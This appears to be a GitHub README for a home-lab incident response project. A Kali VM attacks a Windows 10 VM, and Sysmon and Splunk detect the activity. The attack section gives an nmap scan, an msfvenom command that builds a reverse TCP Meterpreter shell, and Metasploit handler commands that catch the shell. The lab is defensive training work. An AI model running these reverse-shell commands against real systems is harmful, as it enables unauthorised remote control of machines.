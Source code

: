 # Windows & Kali Incident Response Lab

This project simulates a realistic internal network attack in an isolated home lab environment. It demonstrates hands-on incident response techniques using Splunk, Sysmon, and attacker tools such as Nmap and Metasploit — covering the entire workflow from attack execution to detection and documentation.

## Lab Overview

- **Environment:** Oracle VirtualBox
- **Virtual Machines:**
  - Windows 10 (Target System)
  - Kali Linux (Attacker System)
- **Tools Used:**
  - Splunk Enterprise
  - Splunk Universal Forwarder
  - Sysmon (via MyDFIR config)
  - Nmap
  - Metasploit / msfvenom
- **Network Setup:** Internal NAT-only network with manually assigned static IPs

## Objectives

- Deploy Windows and Kali VMs on an isolated network
- Configure Splunk Universal Forwarder on Windows 10
- Install and tune Sysmon for endpoint telemetry
- Simulate cyber attacks using:
  - Nmap for reconnaissance
  - msfvenom and Metasploit for payload generation and exploitation
- Detect and analyze adversary activity in Splunk
- Troubleshoot log forwarding and network connectivity
- Document all phases with professional structure


## Lab Architecture

Windows 10 VM <-> Kali Linux VM (VirtualBox internal network)

- Sysmon installed on Windows 10 for detailed event logging
- Splunk Universal Forwarder collects local logs
- Logs are forwarded to Splunk Enterprise running externally or on localhost

## Setup and Configuration

### Sysmon Deployment

Installed Sysmon using PowerShell and the MyDFIR configuration file:

    sysmon.exe -i SysmonConfig.xml

### Splunk Input Configuration

Custom `input.conf` used on the Universal Forwarder to ingest logs:

    [WinEventLog://Security]
    disabled = 0

    [WinEventLog://Microsoft-Windows-Sysmon/Operational]
    disabled = 0

    [WinEventLog://System]
    disabled = 0

    [WinEventLog://Application]
    disabled = 0

    [WinEventLog://Windows PowerShell]
    disabled = 0

### Network Configuration

- Internal-only VirtualBox network
- Static IPs manually assigned to both VMs
- Firewall rules adjusted to allow:
  - ICMP (ping)
  - Inbound connections for testing payloads

## Attack Simulation

### 1. Reconnaissance

Performed an Nmap scan from Kali targeting the Windows VM:

    nmap -A 192.168.56.10 -Pn

No ports were open externally, demonstrating basic system hardening.

### 2. Payload Creation and Delivery

Created a reverse TCP Meterpreter shell using `msfvenom`:

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.20 LPORT=4444 -f exe -o shell.exe

Delivered the payload via a Python HTTP server and downloaded it on Windows using `Invoke-WebRequest`.

### 3. Exploitation

Payload execution triggered a reverse shell back to Metasploit:

    use exploit/multi/handler
    set PAYLOAD windows/meterpreter/reverse_tcp
    set LHOST 192.168.56.20
    set LPORT 4444
    run

## Detection and Analysis

- All attacker behavior was logged and indexed in Splunk
- Investigated via dashboards and custom SPL queries
- Visibility included:
  - Process creation (`Event ID 1`)
  - Network connections (`Event ID 3`)
  - Image loads and script executions

## Troubleshooting

- **Connectivity Issues:** Resolved by configuring the correct internal adapter type and static IPs
- **Missing Logs:** Corrected input stanza in `input.conf` and restarted the Splunk Forwarder
- **Payload Failures:** Ensured firewall allowed connections and ran as administrator

## Lessons Learned

- Built a complete detection lab using enterprise-grade tools
- Understood red and blue team tactics within a single exercise
- Gained experience correlating adversary activity with defensive telemetry
- Improved system hardening and investigation techniques through iteration
- Validated Sysmon and Splunk integration in a live attack simulation
